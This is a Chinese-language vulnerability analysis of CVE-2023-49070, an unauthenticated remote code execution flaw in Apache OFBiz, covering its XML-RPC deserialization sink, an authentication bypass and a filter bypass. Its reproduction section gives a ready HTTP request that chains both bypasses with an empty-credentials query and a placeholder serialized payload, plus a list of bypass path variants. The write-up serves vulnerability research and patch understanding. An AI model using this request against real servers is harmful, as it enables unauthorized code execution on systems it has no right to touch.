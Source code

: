 - [CVE-2023-49070 Apache OFbiz 远程代码执行](#cve-2023-49070-apache-ofbiz-远程代码执行)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [XML RPC 反序列化](#xml-rpc-反序列化)
    - [Bypass](#bypass)
      - [Auth Bypass](#auth-bypass)
      - [Filter Bypass](#filter-bypass)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-49070 Apache OFbiz 远程代码执行
## 影响版本
< 18.12.10
## 环境搭建
https://ofbiz.apache.org/download.html  

`gradlew loadAll ofbiz --debug-jvm` 启动调试  
测试版本： 18.12.09
## 漏洞原理
### XML RPC 反序列化
XML RPC反序列化主要是因为CVE-2020-9496漏洞，Apache OFbiz 有一个XML RPC EventHandler，位于`java/org/apache/ofbiz/webapp/event/XmlRpcEventHandler.java`，其使用的Apache XML RPC组件是存在反序列化漏洞的，如果XML数据中含有`<serializable>`标签，那么Apache XML RPC会对`<serializable>`标签数据进行b64解码然后进行反序列化。  
![](img/15-47-44.png)  
### Bypass
在针对CVE-2020-9496漏洞的修复过程中，一共修复了两次，第一次是为该接口添加了认证要求。  
![](img/15-50-25.png)  
然后第二次在cacheFilter中针对xmlrpc接口对POST内容做了`<serializable`标签关键字检查。  
![](img/15-51-28.png)  
而这两次的修复都可以被绕过，导致该反序列化接口仍然可以未授权访问，导致未授权的RCE。  
#### Auth Bypass
对于认证检查，问题主要出在其检查是否登录的逻辑中，对于webtools/control路径下方法调用的处理主要位于`org/apache/ofbiz/webapp/control/RequestHandler.java`中，其中会对请求的路由判断是否需要验证。  
![](img/16-09-14.png)  
如果需要验证，其会调用`java/org/apache/ofbiz/webapp/control/LoginWorker.java#checkLogin`方法进行检查是否登录，而我们则需要返回`success`。 
![](img/16-16-37.png)  
而该方法中想要最后返回`success`那么就不能执行到`return error`和`return impersonated`.对于返回error的条件其判断逻辑如下
![](img/16-18-42.png)  
主要有两个地方，首先username，password不能为null，然后`"error".equals(login(request, response))`语句必须为false.  
来到login方法中，其有一段代码逻辑导致了这次绕过。  
![](img/16-24-44.png)  
我们需要返回的内容不是error就行，也就是说只要`requirePasswordChange`变量为True，`unpwErrMsgList`不为空就可以返回`requirePasswordChange`.  
其中requirePasswordChange的值是将从请求中的requirePasswordChange变量和字符`Y`做比较，该值可控。  
而`!unpwErrMsgList.isEmpty()`的判断可以从前面几行代码看到unpwErrMsgList的生成过程,在这里使用了`UtilValidate.isEmpty`来判断username和password是否为空，其中的逻辑是如果为null或变量长度为0则判断为Empty。  
![](img/16-30-28.png)  
如果为空则会向unpwErrMsgList中添加错误信息，那么则可以满足`!unpwErrMsgList.isEmpty()`条件。  
也就是说我们只要传递一个`USERNAME=&PASSWORD=&requirePasswordChange=Y`的query即可满足其登录验证的所有条件，这样USERNAME和PASSWORD变量既满足了不为null的条件也满足了`UtilValidate.isEmpty`判断变量为Empty的条件。  
#### Filter Bypass
在Cache Filter中，主要逻辑由两部分，首先是判断uri是否是`/control/xmlrpc`,然后再判断请求中是否含有`</serializable`标签。
```java
        String context = ((HttpServletRequest) request).getContextPath();
        String uriWithContext = ((HttpServletRequest) request).getRequestURI();
        String uri = uriWithContext.substring(context.length());

        if ("/control/xmlrpc".equals(uri.toLowerCase())) {
            // Read request.getReader() as many time you need
            request = new RequestWrapper((HttpServletRequest) request);
            String body = request.getReader().lines().collect(Collectors.joining());
            if (body.contains("</serializable")) {
                Debug.logError("Content not authorised for security reason", "CacheFilter"); // Cf. OFBIZ-12332
                return;
            }
        }
```  
绕过的关键在于第一步中，其进行对比的uri来源于HttpServletRequest.getRequestURI,通过该种方式来判断请求的接口是否是/control/xmlrpc,但getRequestURI获取到的是请求的原始URI，并没有做归一处理，然而在RequestHandler中对请求路径和方法进行映射时的处理逻辑有一些小差异，解析URI对应的方法的逻辑位于`java/org/apache/ofbiz/webapp/control/RequestHandler.java#resolveURI`中。  
![](img/17-18-47.png)  
可以到看到寻找的逻辑就是通过getRequestUri方法获取到请求的uri然后在requestMapMap去寻找对应匹配的方法，而getRequestUri进行处理的路径是由`req.getPathInfo();`获取的，而pathInfo方法获取到的路径和getRequestURI获取到的路径是不一致的，然后在getRequestUri方法中获取URI的方式是将path根据`/`分隔然后返回第一个元素作为URI。  
![](img/17-20-27.png)  
那么我们传入`/xmlrpc`和`/xmlrpc/`(后面接任意数量的`/`都可以)那么其split之后的第一个元素都会是xmlrpc。所以对于该filter的绕过只需要在`/webtools/control/xmlrpc`路径后面加任意数量的`/`即可绕过对`/control/xmlrpc`路由关键字的检测但又不影响后续路由映射。 
![](img/17-26-23.png)  
![](img/17-26-56.png)
## 漏洞复现 
```http
POST /webtools/control/xmlrpc//////?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Cookie: OFBiz.Visitor=10207
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/xml
Content-Length: 4125

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">b64</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```
![](img/17-27-40.png)   
```
/webtools/control/xmlrpc/
/webtools/control/xmlrpc///;//;/
/webtools/control/xmlrpc;/
```

## 补丁
移除了XML-RPC组件相关代码。
## 参考
https://www.cnblogs.com/ph4nt0mer/p/13576739.html